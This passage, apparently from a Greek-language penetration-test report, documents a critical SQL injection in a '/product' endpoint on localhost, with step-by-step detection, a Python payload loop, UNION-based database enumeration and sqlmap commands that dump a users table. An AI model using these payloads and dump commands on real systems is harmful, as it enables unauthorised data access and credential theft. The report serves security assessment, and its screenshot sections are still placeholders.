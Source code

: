 #### 4.1.1 Περιγραφή της Ευπάθειας
**Severity:** CRITICAL (CVSS 3.1: 9.8)  
**CWE ID:** CWE-89  
**OWASP Category:** A03:2021 – Injection

Εντοπίστηκε SQL Injection ευπάθεια στο endpoint `/product` όπου η παράμετρος `id` δεν φιλτράρεται σωστά πριν χρησιμοποιηθεί στο SQL query.

#### 4.1.2 Τεχνικά Βήματα Εντοπισμού & Εκμετάλλευσης

**Βήμα 1: Initial Detection**
```bash
# Test για SQL errors
GET /product?id=1' HTTP/1.1
Host: localhost

# Response:
MySQL Error: You have an error in your SQL syntax near ''
```

**Βήμα 2: Identify Injection Point**
```python
# Python script για automated testing
import requests

payloads = ["1'", "1' OR '1'='1", "1' UNION SELECT NULL--"]
for payload in payloads:
    r = requests.get(f"http://localhost/product?id={payload}")
    print(f"Payload: {payload} - Status: {r.status_code}")
```

**Βήμα 3: Database Enumeration**
```sql
# Extract database version
/product?id=1' UNION SELECT @@version-- 

# Extract database name
/product?id=1' UNION SELECT database()-- 

# Extract tables
/product?id=1' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()-- 
```

**Βήμα 4: Data Extraction**
```bash
# Using SQLMap
sqlmap -u "http://localhost/product?id=1" --dbs --batch
sqlmap -u "http://localhost/product?id=1" -D eshop --tables
sqlmap -u "http://localhost/product?id=1" -D eshop -T users --dump
```

#### 4.1.3 Screenshots / Proof of Concept
[PLACEHOLDER: Screenshot showing SQL error]
[PLACEHOLDER: Screenshot showing extracted data]
[PLACEHOLDER: Screenshot showing admin credentials]
